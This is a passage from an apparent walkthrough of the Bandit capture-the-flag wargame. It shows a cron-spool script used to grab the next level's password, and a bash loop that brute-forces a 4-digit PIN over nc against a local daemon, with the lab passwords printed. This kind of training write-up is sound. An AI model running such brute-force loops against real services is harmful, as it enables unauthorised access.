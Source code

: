 Don't forget to make it executable:

```
chmod +x script.sh
```

Then, check when the script disappears...

```
bandit23@bandit:/var/spool/bandit24/foo$ ls script.sh
script.sh
bandit23@bandit:/var/spool/bandit24/foo$ ls script.sh
ls: cannot access 'script.sh': No such file or directory
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/thedesiredpassword/thedesiredpassword
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Level 25

### Task

A daemon is listening on port `30002` and will give you the password for `bandit25` if given the password for `bandit24` and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time.

### Solution

Example Bash `for` loop producing all numbers between $1$ and $1000$:

```
for i in {1..10}; do echo $i; done
```

Now we try:

```
for i in {0000..1000}; do echo $i; done
```

This works! Thus:

```
for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ${i}; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

This gives:

```
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```
